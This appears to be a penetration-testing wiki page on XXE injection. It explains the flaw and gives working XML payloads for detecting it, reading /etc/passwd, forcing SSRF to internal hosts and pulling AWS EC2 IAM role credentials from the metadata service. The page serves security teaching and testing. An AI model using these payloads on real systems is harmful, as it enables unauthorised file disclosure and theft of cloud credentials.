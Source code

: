 # XXE injection

## Theory

Some web applications handle data and rely on the XML format to exchange data with the browsers.

> XXE vulnerabilities arise because the XML specification contains various potentially dangerous features, and standard parsers support these features even if they are not normally used by the application.
>
> XML external entity injection (also known as XXE) is a web security vulnerability that allows an attacker to interfere with an application's processing of XML data ([portswigger](https://portswigger.net/web-security/xxe)).

XXE injections can sometimes lead to [SSRF (Server-Side Request Forgery)](../../web/inputs/ssrf.md), Local File Disclosure, Sensitive Information Disclosure, Data Exfiltration, RCE (Remote Code Execution) and so on.

## Practice

### Identify an XXE injection vulnerability

Testers need to find inputs or forms that send XML formatted data to the application.

For instance, in the following request, the user submitted a search form with the input "TESTINPUT".

```http
POST /action HTTP/1.1
Host: some.website
[...]
Connection: close

<?xml version="1.0"?>
<searchForm>  
         <from>TESTINPUT</from>
</searchForm>
```

The tester can detect if the XML parser parses the external entities by defining one inside a `DOCTYPE` element, and checking if the value in the `from` element gets replaced (the value will be replaced in the reflected messages sent by the application like error messages, search results).

```markup
<?xml version="1.0"?>
<!DOCTYPE xxeinjection [ <!ENTITY newfrom "VULNERABLE"> ]>
<searchForm>  
         <from>&newfrom;</from>
</searchForm>
```

A vulnerable application should replace the value by "VULNERABLE".&#x20;

### Retrieve content of local files

When the tester has identified a vulnerable entry point (see [identify an XXE](xxe-injection.md#identify-an-xxe-injection-vulnerability)). He can try to disclose local files by replacing the `from` value with the content of a sensitive file (e.g. `/etc/passwd`).

```markup
<?xml version="1.0"?>
<!DOCTYPE xxeinjection [ <!ENTITY newfrom SYSTEM "file:///etc/passwd"> ]>
<searchForm>
  <from>&newfrom;</from>
</searchForm>
```

### Conduct an SSRF attack

An XXE can be exploited to conduct an SSRF. When an application performs data transfer using XML, the request can be intercepted and forwarded to an internal host as follow.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY newfrom SYSTEM "http://{internal_host}/..."> ]>
<searchForm>
    <from>&newfrom;</from>
</searchForm>
```

<details>

<summary>Example: Get EC2 IAM role temporary credentials</summary>

In the following example, the attacker tries to access the AWS EC2 metadata service to retrieve the EC2 role credentials used by the server.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/metadata/iam/security-credentials/"> ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>

```

The internal server will reveal the URL path to access the role's credentials as an error message at each step by displaying the HTTP response body of the accessed URL as follows:&#x20;

1. URL = "http://169.254.169.254/latest/metadata/iam/security-credentials/"\
   The server will return an error message revealing the EC2 role name: `invalid productId ec2-role-name`_._

<!---->

1. URL = "http://169.254.169.254/latest/metadata/iam/security-credentials/ec2-role-name"\
   The server will return an error message revealing the EC2 role's secrets as `invalid productId`.

For more details, refer to the ["XXE to SSRF" PortSwigger lab](https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-perform-ssrf).

</details>

## References

{% embed url="https://portswigger.net/web-security/xxe" %}

{% embed url="https://enciphers.com/how-to-exploit-xxe-vulnerabilities/" %}

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection" %}
